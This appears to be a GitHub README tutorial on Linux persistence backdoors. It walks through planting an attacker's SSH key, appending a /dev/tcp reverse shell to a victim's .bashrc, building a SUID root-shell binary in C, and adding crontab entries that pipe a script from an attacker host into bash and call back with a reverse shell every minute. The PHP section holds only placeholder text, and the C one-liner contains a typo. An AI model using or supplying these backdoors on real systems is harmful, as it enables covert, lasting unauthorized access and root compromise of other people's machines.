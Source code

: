 # backdoors

1.ssh\
2.bashrc\
3.suid\
4.cron\
5.php

# //------------------------------------
# 1. SSH Key Access
SSH keys provide extreme convenience for system administrators, however, they also provide convenient backdoors for attackers. Start on your host by generating an SSH key with the command:
\
ssh-keygen\
\
![image](https://raw.githubusercontent.com/DDNvR/backdoors/main/images/sshkeygen.png)
\
This should generate two files an id_rsa.pub which is your public key, and id_rsa which is your private key.\
\
Now that the keys are generated switch back over to the target box and cd to your user's respective home directory (cd ~). As you can see in the image below there was no .ssh directory or authorized_keys file. This is no issue as you can create them with the commands:\
\
mkdir .ssh\
touch authorized_keys

![image](https://github.com/DDNvR/backdoors/blob/main/images/authorizedkeys.png)

\
With that taken care of, back on your attacker box, cat you id_rsa.pub (the public key and copy the entire output.

![image](https://github.com/DDNvR/backdoors/blob/main/images/keyshow.png)

\
All that is left to do is to echo the output of your id_rsa.pub into the authorized_keys file on the target box. I always like to double-check key was formatted properly by taking a look at the authorized_keys file. Alternatively to echoing the contents of your public key to the authorized_keys file, if you have ssh access to the target box you can utilize the text editor of your choice and copy + paste the contents.

![image](https://github.com/DDNvR/backdoors/blob/main/images/addkey.png)

\
Now to utilize the backdoor all you have to do is ssh to the target box and no matter what they change their password to you will always have key access to the host.\
\
Note: make sure to use -i [private key file] in your ssh command to specify you want to make use of key authentication.

# //------------------------------------
# Bashrc Backdoor
The .bashrc file, located in every user's home directory is rarely checked by the average user, making this one of my favorite spots to stick a backdoor.\
\
Ensure you are in your user’s home directory by issuing the command:\
\
cd ~\
\
Now that you are in their home directory simply echo the following and direct the output to append(not overwrite the .bashrc file):\
\
echo ‘bash -i >& /dev/tcp/[attack box ip address]/[port] 0>&1’ >> ~/.bashrc\
\
Confirm the aforementioned command completed successfully my examining the end of the .bashrc file with:\
\
tail ~/.bashrc\
\
With that established, all that is left to do is set up a listener. Now every time that user logs in to the box it will call out to your attack box on the specified port number! To simulate this in a lab environment simply exit the ssh session and re-login with the key persistence we set up earlier. This login will trigger the reverse shell to call out.

![image](https://github.com/DDNvR/backdoors/blob/main/images/bashrc.png)

# //------------------------------------
# SUID Backdoor
SUID binaries are a popular method to privilege escalate on a Linux system. For our final backdoor method, we are going to create our own that drops us into a root shell from a normal user. This method combined with a web shell can be a devastating combo, as you can go from a web shell to the root user in a matter of minutes.\
\
Note: This can be compiled on the target box provided it has gcc installed. In the case it does not (like in my example) I simply compiled it on my attack box and transferred the final product over to the target.\
\
Start by creating a C file with the following command\
\
echo ‘int main() { setresuid(0,0,0,); system(“/bin/sh”); }’ > privshell.c\
\
Compile this new C file to a system binary with:\
\
gcc -o privshell privshell.c\
\
Remove the original C file as seen in the image, and change the ownership of the file (if you created it as the root user it will already be owned by root, however it does not hurt to double-check).\
\
chown root:root privshell\
\
Add the SUID permissions to the file with:\
\
chmod u+s privshell\
\
Finally copy the file to a spot a normal user can access like /tmp or /var/tmp, and switch to a normal user.\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor.png)

\
All that is left to do is execute the new malicious SUID binary and gain root privileges without ever authenticating with a password!\

![image](https://github.com/DDNvR/backdoors/blob/main/images/suidbackdoor2.png)

\
We covered a lot of ground today, thus I recommend finding two Linux virtual machines to practice these on. In the process of making this guide, I stumbled upon a lot of excellent resources if you would like to read further into the subject, happy hacking.

# //------------------------------------
# Cron Backdoor
Cron jobs are often overlooked by daily users, thus making them a great place for us to maintain our access. I will cover two different cron job back door methods leaving it up to you to decide which you prefer.\
\
The first involves creating a bash script with this command\
\
#!/bin/bash\
\
bash -i >& /dev/tcp/[ip address]/[port] 0>&1\
\
Secondly, in the same directory as your newly created bash script start a python3 web server with the command:\
\
python3 -m http.server\
\
Finally set up your netcat listener on the same port specified in your script\
\
nc -nlvp [port #]\
\
imagehere\
\
Now with all that set up and ready to go switch back over to the target box and edit your user’s crontab with the following command:\
\
crontab -e\
\
Add the following two lines to their crontab:\
\
* * * * * shell ‘curl http://[attack box ip]/[file-name.sh] | bash’\
* * * * * /bin/bash -c ‘/bin/bash -i >& /dev/tcp/[attack box ip]/[port] 0>&1’\
The first will request your hosted bash script and download it to the attack box. Then it will execute the script due to the “| bash” specification in the command.\
\
The second requires no script, or webserver to operate it simply calls back to your attack box with a reverse shell every minute.\

# //------------------------------------
# PHP Backdoor

asdfasdf\

# //------------------------------------
